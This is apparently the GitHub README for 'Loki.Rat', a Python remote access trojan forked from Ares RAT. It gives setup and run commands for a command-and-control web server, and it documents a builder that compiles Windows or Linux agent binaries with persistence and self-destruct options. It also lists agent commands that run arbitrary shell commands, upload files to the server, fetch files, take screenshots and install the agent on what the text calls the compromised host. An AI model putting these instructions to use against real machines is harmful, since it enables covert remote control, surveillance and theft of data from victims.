 # Loki.Rat :mouse:
     
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||              (\
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||               \\
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||                ))
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||               //
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||        .-.   //  .-.
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||       / 0 \-((=-/   \
    |||||||██▓        ▒█████      ██ ▄█▀    ██▓            ██▀███      ▄▄▄         ▄▄▄█████▓ |||||||       \      \\     /
    |||||||▓██▒       ▒██▒  ██▒    ██▄█▒    ▓██▒           ▓██ ▒ ██▒   ▒████▄       ▓  ██▒ ▓▒|||||||        '( ____))_ )'
    |||||||▒██░       ▒██░  ██▒   ▓███▄░    ▒██▒           ▓██ ░▄█ ▒   ▒██  ▀█▄     ▒ ▓██░ ▒░|||||||        .-'   //  '-.
    |||||||▒██░       ▒██   ██░   ▓██ █▄    ░██░           ▒██▀▀█▄     ░██▄▄▄▄██    ░ ▓██▓ ░ |||||||       /     ((      \
    |||||||░██████▒   ░ ████▓▒░   ▒██▒ █▄   ░██░    ██▓    ░██▓ ▒██▒    ▓█   ▓██▒     ▒██▒ ░ |||||||      |       *       |
    |||||||░ ▒░▓  ░   ░ ▒░▒░▒░    ▒ ▒▒ ▓▒   ░▓      ▒▓▒    ░ ▒▓ ░▒▓░    ▒▒   ▓▒█░     ▒ ░░   |||||||       \             /
    |||||||░ ░ ▒  ░     ░ ▒ ▒░    ░ ░▒ ▒░    ▒ ░    ░▒       ░▒ ░ ▒░     ▒   ▒▒ ░       ░    |||||||        \   |_w_|   /
    |||||||░ ░      ░ ░ ░ ▒     ░ ░░ ░     ▒ ░    ░        ░░   ░      ░   ▒        ░        |||||||        _)  \ ` /  (_
    |||||||░  ░       ░ ░     ░  ░       ░       ░        ░              ░  ░                |||||||      (((_ _/   \_ _)))
    |||||||░                                                                                 |||||||
    
Loki.Rat is a fork of the [Ares RAT](https://github.com/sweetsoftware/Ares), it integrates new modules, like the backdoor support for the android platform
Loki.Rat is a Python Remote Access Tool.

Warning: Only use this software according to your current legislation. Misuse of this software can raise legal and ethical issues which I don't support nor can be held responsible for.

Loki.Rat is made of two main programs:

    A Command aNd Control server, which is a Web interface to administer the agents
    An agent program, which is run on the compromised host, and ensures communication with the CNC

The Web interface can be run on any server running Python. The agent[Payload] can be compiled to native executables using pyinstaller.
# Setup 

Install The Loki.Rat 

Open a terminal windows and type this command :
 ```
     git clone https://github.com/TheGeekHT/Loki.Rat.git
     cd Loki.Rat
 ```
 Install the Python modules requirements:
 ```
     pip install -r requirements.txt
 ```
 Initialize the database:
 ```
     cd server
    ./loki.py initdb
 ```    
 In order to compile Windows agents on Linux, setup wine (optional):
 ```
     ./wine_setup.sh
 ```
 ## Server
 
 Run with the builtin (debug) server:
 ```
     ./loki.py runserver -h 1.0.1.0 -p 8080 --threaded
 ```
 Or run using gunicorn:
 ```
     gunicorn loki:app -b 1.0.1.0:8080 --threads 20
 ```
 The server should now be accessible on http://1.0.1.0:8080
 
 ## Payload
 Run the Python payload (update config.py to suit your needs):
 ```
     cd payload
     ./payload.py
 ```
 Build a new payload to a standalone binary:
 ```
     ./builder.py -p Linux --server http://localhost:8080 -o payload
     ./payload
 ```
 To see a list of supported options, run ./builder.py -h
 ```
     ./payload/builder.py -h
     usage: builder.py [-h] -p PLATFORM --server SERVER -o OUTPUT
                    [--hello-interval HELLO_INTERVAL] [--idle_time IDLE_TIME]
                    [--max_failed_connections MAX_FAILED_CONNECTIONS]
                    [--persistent]

     Builds an Loki.Rat payload

     optional arguments:
     -h, --help            show this help message and exit
     -p PLATFORM, --platform PLATFORM
                         Target platform (Windows, Linux).
     --server SERVER       Address of the CnC server (e.g http://1.0.1.0:8080).
     -o OUTPUT, --output OUTPUT
                         Output file name.
     --hello-interval HELLO_INTERVAL
                        Delay (in seconds) between each request to the CnC.
     --idle_time IDLE_TIME
                         Inactivity time (in seconds) after which to go idle.
                         In idle mode, the agent pulls commands less often
                         (every <hello_interval> seconds).
     --max_failed_connections MAX_FAILED_CONNECTIONS
                         The agent will self destruct if no contact with the
                         CnC can be made <max_failed_connections> times in a
                         row.
     --persistent          Automatically install the agent on first run.
```
Supported payload commands
```
     <any shell command>
     Executes the command in a shell and return its output.

     upload <local_file>
     Uploads <local_file> to server.

     download <url> <destination>
     Downloads a file through HTTP(S).

     zip <archive_name> <folder>
     Creates a zip archive of the folder.

     screenshot
     Takes a screenshot.

     python <command|file>
     Runs a Python command or local file.

     persist
     Installs the agent.

     clean
     Uninstalls the agent.

     exit
     Kills the agent.

     help
     This help.
```
 Made with :heart: in HAITI 🇭🇹 
